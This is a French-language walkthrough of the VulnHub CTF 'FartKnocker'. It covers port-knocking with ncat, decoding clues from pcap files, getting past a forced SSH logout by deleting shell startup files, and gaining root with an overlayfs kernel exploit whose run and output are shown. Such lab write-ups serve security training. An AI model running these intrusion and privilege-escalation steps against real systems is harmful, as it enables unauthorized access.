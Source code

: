 # Solution du CTF FartKnocker de VulnHub

[TopHatSec: FartKnocker](https://vulnhub.com/entry/tophatsec-fartknocker,115/) est le dernier d'une série de 3 CTFs. Le titre du CTF laisse entendre qu'il y aura du port-knocking (tenter de se connecter à une suite de ports dans un ordre précis en ouvre un autre).

Pou commencer on dispose juste du port 80 :

```
Nmap scan report for 192.168.56.101
Host is up (0.00018s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Sur la page du site on trouve une capture réseau au format pcap. On l'ouvre avec `Wireshark` et on trouve quelques tentatives (flag `SYN` mais réponse `RST`) pour accèder à des ports TCP.

D'abord une série sur les ports 7000, 8000 puis 9000 et ensuite une autre série avec les même ports et une tentative final sur le port 8888.

Je reproduis la séquence avec `ncat` :

```bash
ncat -z 192.168.56.101 7000; ncat -z 192.168.56.101 8000; ncat -z 192.168.56.101 9000; ncat -z 192.168.56.101 8888
```

et lors d'un nouveau scan de ports, on a un nouveau service :

```
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, LSCP, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    /burgerworld/
```

Le port ne retourne que le message `/burgerworld/`. On se rend donc sur ce path sur le port 80 et on a un nouveau fichier pcap...

Sur celui-ci on a des données transmises lors de la connecion au port 8080 :

```

                      MMMMMMM           MMMMMMH 
                HMMMMM:::::::.MMMMMMMMMM:::::.TMM
              MMMI:::::::::::::::::::MMH::::::::TM
            MMIi::::::::::::.:::::::::::::::::::::MMMM
           MT::::.::::::::::::::::::::::::::::::.::=T.IMMM
         MMMi:::::::::::::::::::::::::::::::::::::::::::MT)MM
     MMMI.:::::::::::::::::::::::::::::::::::::::::::.:::M= MM
   XMXi::::::::::::::::::::::.:::::::::::::::::::::::::::::::=MM
   MMi::::::::::::::::::::::::::::::::::::::::::::::::::.::..:=MMM
  MM:MMT:::::::::.:::::::::::::::::.:::::::::::::::::::::::::::MiMM
   MMM::::::::::::::::::.::::::::::::::::::::::::::.::::::::::.TM.MM
   MMi::::::::::::::.::::::::::::::::::::::::::::::::::::::.:::.:: M
   MM:::.::::::::::::::::::::::::::::::::.:.:::::::::::::::::::::: XM
 MM:MT::.::::::::::::::::::::::::::::::::::::::::::::::::::::::::::XM
IMM:::.::::::::::::::::::::::::::::::::::: :::::::::::::::::::::::.=M
 MM::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::: :::M
 XMT:::::::::::::::::::::: ::::::::::::::::: : ::::::::::::::::::: iM
   MiMi:::::::::: :::::::::::::::::::::::::::::::: ::::::::::::::.:IM
     M::::::HH::::::::::::::::::::::::::::::::::::::::::::::::::::: M
     MT:::::iM::::::::Hi:iXH:::ii::XH:::::::::::::.::::::::::::::.:.M
      MX:::::iMX:i::::iMi:iMH::XH::Mi:::::::::::::::::::::::::::::: M
        Mii::::HMH:::::iMH::MH=:MM=TMi::::::::::::::::::::::::::::::MM
          MMMMMMMMMMMXTi:MMHi:HMMIMMMMii::::::::::::::::::::::::::::XM
           XXOXMMT:. ::T= :IMMMMMMM=iXMii:::::::::::::::::::::::::: MM
            MMMH:::.:::::::.::::.::::.:XMi::::::::::::::::::::::::::MM
           XMM::.:.:..::..:.:.::.:.::: ::XMi::::::::::::::::::::::::MX
          XMMT::::.:.::.::::.::.::::::::.::XH:::::::::::::::::::::: M
          HMX::...:..::..:.:.::::::..... :::XX::::::::::::::.:::::. M
          MM:::....:::::.::::::..:::::.:..:::HX::::::::::::::::::::=M
          MX::::::::::::::::::::::..::::.:..::X::::::::::::::::::::IM
         XMI..  .:.::....:..::::.:: ::...::.:.MH:::::::::::::::::.: M
         MM:. ::..::....::.::::::....:.:...:..MT::.   ::::::::: :..IM
         MM=:::::.::.:::::..::::.: .::..::..::Mi:::::::::::::::::: MM
         MMI:::...:  .::..::::::.:::::::.::::TM:::::::::::::::::::=MO
          MH.: .::::.::.. .:::::iLMXX=::::.:.Mi::::::: ::::::::::.MM
          MX:.:..:: .:.:.:.: :MMM:::..:::::.HM:::: :::::::::::::.MM
          MM:::...::....: ::IMT:::.:...:.::.MT::::::: ::::::::: MM
           M=::..::::..:::MM:i:..::.:...: ::M:::: ::: ::::::::::MI
           MH::: :.:.: MMMM=:::.:.:...:....iM::: ::::::  ::::::LM
          MMMMT.::. ::TM:::::..::::::::.::.IM::::HH:::::::::::.MO
           MM:LM::T:MT.:: .......:....:.:: TMMiXMT.MH:::.::::.:M=
            M:. :::MMi:::MMMM=::::::.::..::=MMMMMMXMH:::.:::::MM
           XMI: :..::=MX  :M::.......:...:::.MXTHM MH:::.: :.XM
           MM XMMI IM    M   ................:: :MIIM:::::::MMO
            MMXXMILM  .ML.= :.:::....:.:..::.:..:::MMT:::::TMM
              MXMLMMMT::.:...:........ ....::.:.=.MMMM:::::MM
              MHM=:: :.:::...::::.:...:.....:: =MMM==Mi::::M
              MM=:::.......:.:.::.:.::...:.: ::  . ::=M:: MM
             MMi:=XMMMi::::...:::::.::.:::::::::..: ::Mi:=MT
            MM=:I::  :iMH==:::::.::.:::::::::::::::.::MT:XMT
           MT=:=MMMMMMM=HM::::.::::::MMT=Mi::::::..:::MI=MM
          M ::::::.=I= .MX:..: ::::.::MX::::.:::.:.  .XMMM
         M:MMMMMMM=.::::  ::.::...:.MMIM::.:::.::..::::M
                 M=:: : ::::.==XMMM:XMMM=:::.::.:.::::.M
                 M=.IMMM )X   M  MMMMMM=:::..::..:::.::M
                 MM  X  MMM:MMMMMMMMM=:::.:.:.. .:.::::M
                  MIMMMMMMMMMMMMMMI::::::::.:::.:...:.:M
                MMMMMMMMMMMMMX:.   .:..::....:...:::.:iM
               MMMMMMMMMMI::::::.:.::...:....:.....:.:=M
           MMMMMMMMMI:::::.:.. :.::.::..........:..:..:M
            M=:  :..::..::.........::.......::.:.....: M
             MMMi::::::.:.:==MMMMMMMMMT:.:.:::..:::..: OM
               MM=::..: OMMMM         MMMT:::....:.::: :M
                M=::::MM                MMI:::........:OM
                 MMMMM                   MMH:::..::MMMMMM
                                          MMMMMMMMMMMMMMM


                     CAN YOU UNDERSTAND MY MESSAGE?!



			  eins drei drei sieben
```

Soit 1 3 3 7 en allemand. On se connecte au port 1337 et on obtient le lien `/iamcornholio/` qui délivre le message `T3BlbiB1cCBTU0g6IDg4ODggOTk5OSA3Nzc3IDY2NjYK` soit, décodé en base64 :

> Open up SSH: 8888 9999 7777 6666

De la même façon je suis la séquence de ports avec ncat et je peux désormais accèder au port 22. N'ayant pas d'identifiants particuliers à saisir j'utilise `Beavis` mais le service donne suffisamment d'informations :

```shellsession
$ ssh Beavis@192.168.56.101
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ED25519 key fingerprint is SHA256:Uezp17zkhiRikxBiu5NIZtI0d6nSfyNmetGpcB8AjOA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.101' (ED25519) to the list of known hosts.
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
Beavis@192.168.56.101's password:
```

On utilise ces identifiants pour nous connecter mais on est aussitôt déconnectés :

```shellsession
$ ssh butthead@192.168.56.101
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
butthead@192.168.56.101's password: 
Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.13.0-46-generic i686)

 * Documentation:  https://help.ubuntu.com/
Last login: Tue Mar  3 01:02:49 2015 from 192.168.56.102
You are only logging in for a split second! What do you do!
```

On peut passer à SSH la commande à exécuter, ici bash :

```shellsession
$ ssh butthead@192.168.56.101 bash
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
butthead@192.168.56.101's password: 
ls -al
total 28
drwxr-xr-x 3 butthead butthead 4096 Mar  3  2015 .
drwxr-xr-x 4 root     root     4096 Mar  3  2015 ..
-rw-r--r-- 1 butthead butthead  220 Apr  8  2014 .bash_logout
-rw-r--r-- 1 butthead butthead 3685 Mar  3  2015 .bashrc
drwx------ 2 butthead butthead 4096 Mar  3  2015 .cache
-rw-rw-r-- 1 butthead butthead   67 Mar  3  2015 nachos
-rw-r--r-- 1 butthead butthead  747 Mar  3  2015 .profile
tail .bashrc
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

logout
pkill -Kill -u butthead
TMOUT=1
```

Les fichiers `.bashrc ` et `.profile` ont des commandes qui terminent notre connexion. On peut utiliser `sftp` pour les supprimer :

```shellsession
sftp> rm .bashrc 
Removing /home/butthead/.bashrc
sftp> rm .profile
Removing /home/butthead/.profile
```

Une fois connecté on ne voit rien de particulier pour passer root. Le système semble toutefois vulnérable à `DirtyCOW` et `overlayfs`.

L'exploit pour `DirtyCOW` semble rendre le système instable et je suis obligé de le redémarrer.

L'exploit pour `overlayfs` marche bien en revanche :

```shellsession
$ gcc -o ofs ofs.c
$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(butthead)
# cd /root
# ls
SECRETZ
# cat SECRETZ
You have done a great job, if you can see this, please shoot me an email
and let me know that you have beat this box!

SECRET = "LIVE LONG AND PROSPER, REST IN PEACE MR. SPOCK"

admin@top-hat-sec.com
```

Autre solution possible : l'utilisateur local `beavis` avait un mot de passe relatif au dessin animé (voir [ContactL3ft's Randomness: TopHatSec - Fartknocker VM](https://c0ntactl3ft.blogspot.com/2015/04/tophatsec-fartknocker-vm-hosted-on.html)).

Le mot de passe n'étant pas dans la wordlist rockyou, une attaque bruteforce n'aurait pas aboutit.

*Publié le 2 janvier 2023*
